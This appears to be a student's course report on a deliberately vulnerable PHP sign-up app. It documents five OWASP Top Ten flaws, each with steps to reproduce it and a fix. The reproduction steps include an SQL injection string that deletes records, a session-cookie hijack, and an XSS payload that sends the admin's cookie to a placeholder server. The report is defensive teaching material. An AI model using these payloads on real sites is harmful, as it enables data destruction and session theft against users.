 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” add-on to Firefox):

1. Capture the cookie-session-id with OWASP ZAP after you logged in to the Admin pages (see [README.md](README.md)). 
  * If you use Firefox for this, then close and restart the browser before next step.
2. Go to the Admin login-page again with Firefox, but don’t log in! 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you captured with OWASP ZAP into the "Value" box (see [README.md](README.md)), replacing the existing one (delete first, then paste). Save the change.
4. Open the Event X start page, click the "Admin" link, and you’re in without entering credentials!

### How to fix
Enable SSL for the whole server like this;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```
3. In admin/login.php, change the "http" on line 15 to "https".

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the Apache logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify
Capture the (imaginary) credit card number with OWASP ZAP (see [README.md](README.md)).

### How to fix: 
Enable SSL (see the link in Readme for details)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
